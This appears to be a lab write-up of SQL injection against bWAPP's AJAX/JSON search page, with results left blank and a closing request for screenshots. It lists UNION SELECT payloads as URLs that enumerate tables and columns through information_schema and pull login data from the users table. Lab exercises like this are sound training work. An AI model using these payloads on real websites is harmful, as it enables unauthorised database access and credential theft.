




# Module: SQL Injection (AJAX/JSON) — Low Security

**Step 1: Baseline / Normal Request**
```
http://192.168.1.10/bWAPP/sqli_10-2.php?title=i
```
Result: Normal AJAX autocomplete behavior — typing partial title returns matching JSON results.

---

**Step 2: Enumerate table names**
```
http://192.168.1.10/bWAPP/sqli_10-2.php?title=i'union+select+1,2,3,4,table_name,6,7+from+information_schema.tables--+-
```


---

**Step 3: Enumerate column names**
```
http://192.168.1.10/bWAPP/sqli_10-2.php?title=i'union+select+1,2,3,4,column_name,6,7+from+information_schema.columns--+-
```


---

**Step 4: Identify table containing the 'password' column**
```
http://192.168.1.10/bWAPP/sqli_10-2.php?title=i'union+select+1,2,3,4,table_name,6,7+from+information_schema.columns+where+column_name='password'--+-
```


---

**Step 5: Extract data from users table**
```
http://192.168.1.10/bWAPP/sqli_10-2.php?title=i'union+select+1,login,3,4,column_name,6,7+from+users--+-
```


---

Send me the screenshots for each step and I'll fill in the actual results/data extracted.
